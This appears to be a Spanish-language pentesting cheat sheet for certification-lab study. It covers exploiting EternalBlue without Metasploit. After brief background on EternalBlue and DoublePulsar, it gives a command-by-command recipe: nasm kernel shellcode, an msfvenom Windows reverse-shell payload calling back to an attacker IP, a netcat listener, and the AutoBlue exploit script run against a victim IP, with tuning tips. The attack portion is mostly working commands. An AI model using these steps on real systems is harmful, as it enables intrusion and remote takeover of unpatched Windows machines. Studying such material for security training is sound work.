

# ETERNALBLUE

## INFORMACIÓN BÁSICA


Fuente


**EternalBlue**​ es un exploit supuestamente desarrollado por la NSA. Fue filtrado por el grupo de hackers Shadow Brokers el 14 de abril de 2017, y fue utilizado en el ataque mundial de ransomware con WannaCry del 12 de mayo de 2017\
\
Se puede explotar con metasploit facilmente.\
\
**Doublepulsar** es una herramienta de implantación de puerta trasera desarrollada por Equation Group de la Agencia de Seguridad Nacional (NSA) de EE.UU. que fue filtrada al público por The Shadow Brokers a comienzos de 2017.\
\
Se pueden combinar como hizo [ELEVENPATHS](https://github.com/Telefonica/Eternalblue-Doublepulsar-Metasploit)

## EXPLOIT SIN MSF


Fuente


Donde se complica éste exploit es si intentamos realizarlo sin utilizar Metasploit. Existen infinidad de scripts escritos en python pero la mayoría de ellos no son compatibles con python3.

La mejor forma de explotarlo al estilo OSCP es clonando la herramienta AutoBlue de su github y utilizando sus herramientas para nuestro objetivo:


Fuente


Lo primero que debemos hacer es preparar el Payload. Para ello, en vez de seguir los pasos del script, utilizamos los siguientes comandos:

```
nasm -f bin eternalblue_kshellcode_x64.asm -o evilKernel.bin
```

```
msfvenom -p windows/x64/shell_reverse_tcp EXITFUNC=thread LHOST=<Attacker-IP> LPORT=<Attacker-Port> -f raw -o evilReverse.bin
```

```
cat evilKernel.bin evilReverse.bin > evilPayload.bin
```


De esta manera estamos preparando nuestro Payload para poder ejecutar la reverse shell desde Netcat y no desde Metasploit.


Iniciamos `nc -lvnp [Puerto]` en la máquina atacante.

Por último ejecutamos el script

```
python eternalblue_exploit7.py [IP victima] ./shellcode/evilPayload.bin [groom connections]
```


Las `groom connections` son una parte limitante de la operatividad del script.

Es necesario ir probando números (del 1 al 25 es suficiente) hasta que el exploit funcione.



